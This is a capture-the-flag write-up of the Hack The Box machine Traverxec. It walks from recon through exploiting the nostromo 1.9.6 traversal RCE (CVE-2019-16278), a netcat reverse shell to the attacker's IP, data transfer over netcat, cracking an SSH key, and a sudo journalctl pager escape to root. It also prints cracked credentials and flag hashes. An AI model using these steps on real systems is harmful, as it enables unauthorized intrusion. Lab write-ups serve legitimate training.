# Hack The Box - Traverxec | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Machine (Linux) &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.64.191` &nbsp;•&nbsp; **Time taken:** 50 minutes
>
> **Author:** Jithin Jelson

---

## Introduction

The box we will be attempting to root today is called Traverxec and it is an easy difficulty Linux box.

---

## Assessment Overview

```mermaid
flowchart LR
    A["Recon<br/>nmap -sVC"]:::entry --> B["Port 22 SSH<br/>Port 80 HTTP"]:::ioc
    B --> C["Feroxbuster<br/>404 page footer"]:::ioc
    B --> D["Contact Form<br/>POST /empty.html"]:::ioc
    C --> E{"Server<br/>nostromo 1.9.6"}:::intel
    E --> F["CVE-2019-16278<br/>Directory Traversal RCE"]:::mitre
    D --> G["Burp Repeater<br/>manual payload"]:::payload
    F --> G
    G --> H["Path swap<br/>bin/sh to bin/bash"]:::payload
    H --> P["python3 exploit.py<br/>reverse shell fix"]:::payload
    P --> I{"Foothold<br/>www-data"}:::user
    I --> J["LinPEAS<br/>nostromo HOMEDIRS"]:::intel
    J --> K["backup-ssh-identity-files.tgz<br/>id_rsa encrypted"]:::payload
    K --> L["ssh2john + rockyou<br/>passphrase hunter"]:::payload
    L --> M{"SSH as david<br/>user.txt"}:::user
    M --> N["sudo journalctl<br/>less pager escape"]:::payload
    N --> O{"root.txt"}:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```

---

## What I Learned

- How switching the payload path from `/bin/sh` to `/bin/bash` was what actually made the nostromo directory-traversal RCE fire for me.
- Not all vulnerabilities are application-based, they can be at the OS or service layer too, for example this whole box came down to a vulnerable HTTP server (nostromo 1.9.6) rather than the web app itself.

---

## Recon

We can start off with an nmap scan to get all the service versions and run the default NSE scripts. We can see that the SSH port and web interface is open at port 80.

```
nmap -sVC 10.129.64.191
```



*Figure 1 - nmap -sVC output showing SSH on 22 and nostromo 1.9.6 on port 80, with the TRAVERXEC homepage on the right*

---

## Web Enumeration

We found a few things. It seems the website is using something called Template Mag to create the website template, which when we click on it redirects us to uiCookies. However, checking the GitHub and trying to find the values was not of much use. We didn't get anything back when looking for `robots.txt` etc, but we did see the following error message.



*Figure 2 - feroxbuster run against the site, with the 404 page revealing `nostromo 1.9.6` in the footer*

It isn't Apache or Nginx, it says nostromo, so we google this and it seems that this is a vulnerable server.

---

## CVE-2019-16278 (nostromo 1.9.6)



*Figure 3 - NVD detail page for CVE-2019-16278: Directory Traversal in `http_verify` in nostromo nhttpd through 1.9.6 allowing RCE via a crafted HTTP request*

It seems it allows for remote code execution and the box was also published in 2019, so there is a good chance this is the exploit. We can search this CVE up to see if we can manually exploit it.

According to the exploit we can make a directory traversal into RCE, and we have to do it through a POST submission, and the only POST submission we can do is in the "leave a review" section.



*Figure 4 - Burp Suite intercepting the contact form POST to `/empty.html` on the target*

---

## Manual Exploitation in Burp



*Figure 5 - First Burp Repeater attempt using the `/.%0d./.%0d./.%0d./.%0d./bin/sh` traversal path, running `ifconfig` through the injected body*

It seems to work when we try to manually do it with Burp.

Now we need to achieve remote code execution. We tried a few different commands but it didn't work, so we looked it up and it seems we need to use it by the script. Maybe we can find out later why it didn't work.

And this time it worked.

*(Update: I went back and found it worked when we changed from `/bin/sh` to `/bin/bash`.)*



*Figure 6 - Same Repeater request with the path swapped to `/bin/bash`, now returning an `ls` listing (apt-cache, apt-cdrom, apt-config, ...), alongside the CybermonkX exploit script on the right*

---

## Getting a Shell

So now we can get a reverse shell.

```
python3 exploit.py -t 10.129.64.191 -p 80 -c id
```



*Figure 7 - Downloading the CVE-2019-16278 exploit from GitHub and running it with `-c id`, returning `uid=33(www-data) gid=33(www-data) groups=33(www-data)`*

It seems our script did not take any command with a space, so we fixed the script ourselves and we got RCE.

```
nc -e /bin/sh 10.10.15.110 4444
```



*Figure 8 - After editing the exploit payload to fire a `nc -e /bin/sh` reverse shell, the nc listener on 4444 catches the callback and `whoami` returns `www-data`*

Then we upgraded our terminal.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
```



*Figure 9 - Prompt is now `www-data@traverxec:/usr/bin$` after the PTY upgrade, with the `upgrade.txt` cheat sheet on the left*

---

## Post-Exploitation as www-data

Now we can bring in linpeas.



*Figure 10 - LinPEAS results, highlighting kernel exploit candidates (CVE-2019-13272 etc.) on this 4.19.0-6-amd64 Debian 10 host*

We found an interesting password hash which we used hashcat to crack, and we got the password `Nowonly4me`. But it seems we still need an SSH key as well as the password.

Looking at the nostromo config, we can see a `HOMEDIRS` section which tells us there might be a `public_www` folder in the user's home directory.

```
cat /var/nostromo/conf/nhttpd.conf
ls -la /home/david/public_www/protected-file-area/
```



*Figure 11 - `nhttpd.conf` showing `homedirs /home` and `homedirs_public public_www`, then `ls -la` on the protected file area revealing `backup-ssh-identity-files.tgz`*

---

## Cracking David's SSH Key

We transfer the backup to our Kali box using netcat.

Extract and we find david's private SSH key.

The key is encrypted so we need to crack it with john, and we found the passphrase `hunter`.

```
nc 10.10.15.110 1234 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
tar -xvf backup.tgz
python3 /usr/share/john/ssh2john.py id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
chmod 400 id_rsa
ssh -i id_rsa david@10.129.64.191
```



*Figure 12 - Transferring the tgz over nc, extracting the .ssh keys, cracking the passphrase with `ssh2john` + rockyou (`hunter`), then SSH'ing in as `david` and reading `user.txt`*

**Answer:** `4c51c5f9de2c18b6f4ef933e50aa54e3`

Now we are in.

---

## Privilege Escalation to Root

We can check the following check script.

```
cat ~/bin/server-stats.sh
```

Then we can:

```
# Shrink terminal then run:
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
# In less, type:
!/bin/bash
```

And we get root.



*Figure 13 - The `less` pager spawned by `sudo journalctl` breaks out to `!/bin/bash`, giving a root shell, then `cat root.txt` gives the flag and HTB shows "You have solved Traverxec!"*

**Answer:** `17e7402bcfdfe3c0b42c4deff2713c57`
